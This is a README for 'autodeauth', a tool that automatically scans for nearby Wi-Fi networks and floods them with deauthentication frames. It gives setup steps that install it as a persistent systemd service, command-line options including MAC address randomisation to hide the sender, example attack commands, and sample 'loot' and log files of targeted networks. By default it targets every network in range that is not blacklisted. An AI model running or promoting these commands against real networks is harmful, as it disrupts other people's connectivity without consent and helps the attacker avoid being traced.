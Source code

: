 # autodeauth
A tool built to automatically deauth local networks
* Tested on Raspberry Pi OS and Kali Linux

# Setup
```
$ chmod +x setup.sh
$ sudo ./setup.sh

[*] This can be changed by editing /etc/systemd/system/autodeauth.service
[?] Enter your WiFi interface to use with the autodeauth service: wlan0 


[*] Installed!, you can use sudo autodeauth -h to see available options.
[*] Use sudo systemctl start autodeauth to start the service
[*] Check the README for more infomation about configuring the service
```


# Options
```
$ sudo autodeauth -h
        _       _       ___                _   _    
       /_\ _  _| |_ ___|   \ ___ __ _ _  _| |_| |_  
      / _ \ || |  _/ _ \ |) / -_) _` | || |  _| ' \ 
     /_/ \_\_,_|\__\___/___/\___\__,_|\_,_|\__|_||_|

usage: autodeauth [-h] --interface INTERFACE [--blacklist BLACKLIST] [--whitelist WHITELIST] [--led LED] [--time TIME] [--random] [--ignore] [--count COUNT] [--verbose VERBOSE]

Auto Deauth Tool

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to fetch WiFi networks and send deauth packets (must support packet injection)
  --blacklist BLACKLIST, -b BLACKLIST
                        List of networks ssids/mac addresses to avoid (Comma seperated)
  --whitelist WHITELIST, -w WHITELIST
                        List of networks ssids/mac addresses to target (Comma seperated)
  --led LED, -l LED     Led pin number for led display
  --time TIME, -t TIME  Time (in s) between two deauth packets (default 0)
  --random, -r          Randomize your MAC address before deauthing each network
  --ignore              Ignore errors encountered when randomizing your MAC address
  --count COUNT, -c COUNT
                        Number of packets to send (default 5000)
  --verbose VERBOSE, -v VERBOSE
                        Scapy verbosity setting (default: 0)
                                                    
```

# Usage
After running the setup you are able to run the script by using autodeauth from any directory
## Command line
Networks with spaces can be represented using their mac addresses
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,E1:DB:12:2F:C1:57 -c 10000
```
## Service
```
$ sudo systemctl start autodeauth
```


# Loot and Log files
## Loot
When a network is detected and fits under the whitelist/blacklist criteria its network information is saved as a json file in /var/log/autodeauth/

```json
{
    "ssid": "MyWiFiNetwork",
    "mac_address": "10:0B:21:2E:C1:11",
    "channel": 1,
    "network.frequency": "2.412 GHz",
    "mode": "Master",
    "bitrates": [
        "6 Mb/s",
        "9 Mb/s",
        "12 Mb/s",
        "18 Mb/s",
        "24 Mb/s",
        "36 Mb/s",
        "48 Mb/s",
        "54 Mb/s"
    ],
    "encryption_type": "wpa2",
    "encrypted": true,
    "quality": "70/70",
    "signal": -35
} 
```
## Log File
```
$ cat /var/log/autodeauth/log               
2022-08-20 21:01:31 - Scanning for local networks
2022-08-20 21:20:29 - Sending 5000 deauth frames to network: A0:63:91:D5:B8:76 -- MyWiFiNetwork
2022-08-20 21:21:00 - Exiting/Cleaning up
```

# Edit Service Config

To change the settings of the autodeauth service edit the file /etc/systemd/system/autodeauth.service <br>
Lets say you wanted the following config to be setup as a service
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
```
$ vim /etc/systemd/system/autodeauth.service
```
Then you would change the ExecStart line to <br>
```
ExecStart=/usr/bin/python3 /usr/local/bin/autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```

